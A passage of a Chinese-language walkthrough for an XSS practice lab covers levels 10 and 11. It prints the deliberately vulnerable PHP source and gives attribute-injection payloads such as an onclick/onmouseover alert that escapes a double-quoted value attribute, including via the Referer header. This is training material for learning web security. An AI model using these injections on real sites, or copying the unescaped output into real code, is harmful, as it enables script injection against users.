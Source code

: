 ```php
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>

```

输出点是在 value 属性中，双引号闭合。代码过滤了大于号和小于号，这使得我们无法闭合 input 标签了。根据之前的思路，可以给 input 元素绑定一个事件，然后通过事件来触发XSS。并且现在是没有过滤事件所需要的 on 关键字的，所以可以总结 payload 如下：

> 注意，要复写 type 属性为文本，然后触发事件。type 属性为 hidden 的话触发不了好像。
```php
" type=text onclick=alert(1)//
type="text" onmouseover="javascript:alert(1)

```

#### 第十一关

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level12.php?keyword=good job!"; 
}
</script>
<title>欢迎来到level11</title>
</head>
<body>
<h1 align=center>欢迎来到level11</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level11.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>

```
输出点在 value 属性中，双引号闭合。这一关和上一关几乎相同，不过传入的参数来自于 HTTP_REFERER。
